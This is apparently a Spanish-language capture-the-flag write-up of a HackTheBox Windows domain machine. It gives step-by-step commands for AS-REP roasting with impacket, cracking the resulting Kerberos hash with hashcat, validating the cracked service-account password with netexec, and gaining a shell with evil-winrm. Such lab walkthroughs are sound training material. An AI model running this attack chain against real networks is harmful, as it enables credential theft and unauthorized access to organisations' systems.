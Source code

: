 ``cat users.txt | cut -d '[' -f2 | cut -d ']' -f1 > realusers.txt``

![Pasted image 20250313124825](https://github.com/user-attachments/assets/1d620372-a277-4da3-885a-d611c20c18ef)


Una vez tenemos un listado de usuarios válido podemos hacer uso de la técnica AsRepRoasting, incluso aunque no tengamos sus respectivas contraseñas.

``impacket-GetNPUsers -no-pass -usersfile realusers.txt htb.local/ -output hashes.asreproast ``

![Pasted image 20250313125028](https://github.com/user-attachments/assets/d2280ce8-d54e-48c7-8da0-d86470d4c5bc)

-> Bingo. Tenemos el hash de svc-alfresco.

Como hemos redirigido el output a hashes.asreproast, no hace falta que nos copiemos el contenido del hash.

Vamos a utilizar hashcat para romper este hash. Si te pasa como a mí que no memorizas los códigos de identificación de hashcat (para este caso ``krb5asrep$23$``), puede averiguarse fácilmente:

``hashcat --help | grep -i "kerberos"``

![Pasted image 20250313125209](https://github.com/user-attachments/assets/860c0728-affe-4957-ba93-2a035d275079)


Una vez sabemos el código de identificación interno de hashcat (18200), lo lanzamos con rockyou como diccionario.

``hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force ``

![Pasted image 20250313125311](https://github.com/user-attachments/assets/2edaa5b0-c00a-480b-9fee-54b11f98b717)

Nos ha proporcionado una contraseña para el usuario svc_alfresco : s3rvice

No deberíamos tener problema con estas credenciales, pero por metodología vamos a validarlas:

``netexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![Pasted image 20250313125410](https://github.com/user-attachments/assets/128cd2ac-ff87-4b95-9049-cf613249ad34)

Confirmamos que son credenciales válidas. Vamos a comprobar si permite winrm porque el usuario svc_alfresco forme parte del grupo Remote Management Users.

``netexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![Pasted image 20250313125504](https://github.com/user-attachments/assets/2d8ae864-fc25-4152-8595-1cc9c52a1144)

Pwn3d!, por lo que podemos conectarnos vía evil-winrm.

``evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'``

![Pasted image 20250313125644](https://github.com/user-attachments/assets/47f4700b-7614-4d4b-bbc9-df7850c80efb)


Estamos dentro de la máquina víctima con el usuario svc-alfresco.

En C:\Users\svc-alfresco\Desktop encontramos la flag de usuario:

![Pasted image 20250313125828](https://github.com/user-attachments/assets/a26fde34-e3c4-485a-9b36-1956ec5ff78d)
